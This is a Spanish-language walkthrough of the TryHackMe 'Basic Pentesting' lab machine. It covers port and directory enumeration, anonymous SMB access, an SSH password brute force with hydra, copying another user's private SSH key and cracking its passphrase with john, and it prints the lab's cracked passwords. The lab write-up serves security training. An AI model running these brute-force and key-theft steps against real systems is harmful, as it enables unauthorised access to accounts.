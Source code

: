 # Resolución de la Máquina: Basic Pentesting

- **Plataforma:** TryHackMe
- **Dificultad:** Fácil
- **Fecha de resolución:** 18/06/2025
- **Sistema Operativo:** Linux


## Descripción

"Basic Pentesting" es una máquina de nivel fácil alojada en TryHackMe, diseñada para quienes están comenzando en el ámbito del hacking ético y pruebas de penetración en entornos reales simulados. Su enfoque está en vectores de ataque comunes en entornos empresariales, especialmente la enumeración y el uso de credenciales débiles o mal configuradas.

Durante la resolución, el atacante debe realizar una serie de pasos de reconocimiento y enumeración para identificar servicios expuestos, acceder a través de credenciales por defecto o fuerza bruta, y finalmente escalar privilegios para obtener el control total del sistema.

Esta máquina es especialmente útil para:

> Practicar la enumeración de puertos y servicios mediante herramientas como Nmap

> Realizar fuerza bruta sobre servicios como SSH o SMB para obtener acceso inicial

> Explorar comparticiones de red y archivos accesibles con credenciales débiles

> Reforzar técnicas básicas de escalada de privilegios en sistemas Linux


## Enumeración

### Escaneo con Nmap

```bash
└─$ nmap --open -sS -T5 -sV -n -Pn 10.10.40.29
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-18 19:02 CEST
Nmap scan report for 10.10.40.29
Host is up (0.052s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.18 seconds
```
Al acceder por el puerto 80 veremos que la web esta en mantenimiento, pero inspeccionando el código fuente veremos lo siguiente:

```html
<html>

<h1>Undergoing maintenance</h1>

<h4>Please check back later</h4>

<!-- Check our dev note section if you need to know what to work on. -->


</html>
```
### Escaneo con gobuster
```bash
└─$ gobuster dir -u http://10.10.40.29 -w /usr/share/wordlists/wfuzz/general/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.40.29
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/wfuzz/general/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/development          (Status: 301) [Size: 316] [--> http://10.10.40.29/development/]
Progress: 952 / 953 (99.90%)
===============================================================
Finished
===============================================================
```

### Instrusión al sistema
Accediendo de /development veremos los siguientes txt
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
Si tratamos de acceder a SMB veremos que podemos listar diversos shares sin necesidad de autenticarnos.

```bash
└─$ smbclient -L //10.10.40.29/Anonymous -N

        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            BASIC2

```
Veremos que podremos acceder a Anonymous, dentro veremos un txt que traeremos a nuestra máquina con un get.
```bash
└─$ smbclient //10.10.40.29/Anonymous -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 19:31:20 2018
  ..                                  D        0  Thu Apr 19 19:13:06 2018
  staff.txt                           N      173  Thu Apr 19 19:29:55 2018

                14318640 blocks of size 1024. 11094772 blocks available
smb: \> get staff.txt
getting file \staff.txt of size 173 as staff.txt (0,4 KiloBytes/sec) (average 0,4 KiloBytes/sec)
smb: \> 
```
```
PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```
Con esto podemos deducir que en el sistema se encuentran el usuario Kay y Jan, mediante un ataque de fuerza bruta con hydra obtendremos la contraseña de Jan.
```bash
└─$ hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.221.79 ssh                       
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-19 19:10:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.221.79:22/
[STATUS] 290.00 tries/min, 290 tries in 00:01h, 14344112 to do in 824:23h, 13 active
[22][ssh] host: 10.10.221.79   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-19 19:13:13
```
Una vez dentro del usuario veremos que en /home/kay podemos encontrar un archivo llamado pass.bak al que solo kay puede acceder, por lo tanto, hemos de buscar la manera de escalar privilegios y ser Kay.

SSH permite la autenticación basada en clave pública y privada, usando el algoritmo RSA. El cliente prueba su identidad demostrando que posee una clave privada (id_rsa) asociada a una clave pública previamente autorizada en el servidor.
Nosotros lo que haremos sera obtener la clave privada de Kay y nos haremos pasar por el, de esta manera podremos acceder sin la contraseña.

Nos pasaremos la clave pública con un scp
```bash
└─$ scp jan@10.10.221.79:/home/kay/.ssh/id_rsa .
jan@10.10.221.79's password: 
id_rsa                                                                             100% 3326    34.8KB/s   00:00    
```
A este archivo le deberemos dar permisos 600, pero en el momento de su ejecución nos encontramos con que la clave privada esta cifrada
```bash
└─$ chmod 600 id_rsa 
                                                                                                                     
┌──(yeray㉿kali)-[~]
└─$ ssh -i id_rsa kay@10.10.221.79             
Enter passphrase for key 'id_rsa': 
kay@10.10.221.79's password:
```
Hashearemos el archivo id_rsa utilizando el sigueinte comando
```bash
└─$ ssh2john id_rsa > id_rsa.hash
```
Y posteriormente pasaremos este hash por un diccionario
```bash
└─$ john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)     
1g 0:00:00:00 DONE (2025-06-19 19:46) 4.347g/s 359686p/s 359686c/s 359686C/s betzabeth..beba21
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Ahora ya podremos visualizar el contenido de pass.bak
```bash
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
